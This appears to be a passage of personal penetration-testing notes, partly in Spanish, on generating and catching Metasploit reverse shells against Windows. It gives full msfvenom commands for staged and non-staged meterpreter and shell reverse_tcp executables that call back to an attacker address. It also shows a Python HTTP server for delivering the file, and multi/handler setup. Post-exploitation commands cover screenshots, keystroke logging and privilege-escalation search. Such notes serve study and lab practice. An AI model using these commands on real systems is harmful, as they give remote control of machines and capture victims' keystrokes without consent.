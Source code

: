- not staged: Send all payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.11 LPORT=4646 -f exe -o reverse.exe

msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 LHOST=192.168.1.11 LPORT=4646 -f exe -o reverse.exe #staged

python3 -m http.server 1212 # to share file

# download exe file in victim's machine
# in metasploit
msfdb run
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
show options
set LHOST 192.168.1.11
set LPORT 4646
run

# in hacked machine
getuid
shell
exit
screenshot
kitty +kitten icat /usr/share/metasploit-framework/CggkDHeV.jpeg

keyscan_start
keyscan_dump

background # move machine un second place

search suggester

# --
msfvenom -p windows/x64/meterpreter_reverse_tcp --platform windows -a x64 LHOST=192.168.1.11 LPORT=4646 -f exe -o shell.exe # non staged

use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set LHOST 192.168.1.11
set LPORT 4646
run

# --
# using ncat
msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST=192.168.1.11 LPORT=4646 -f exe -o test.exe

```

## Tipos de explotaciones (MAnuales y automatizadas)
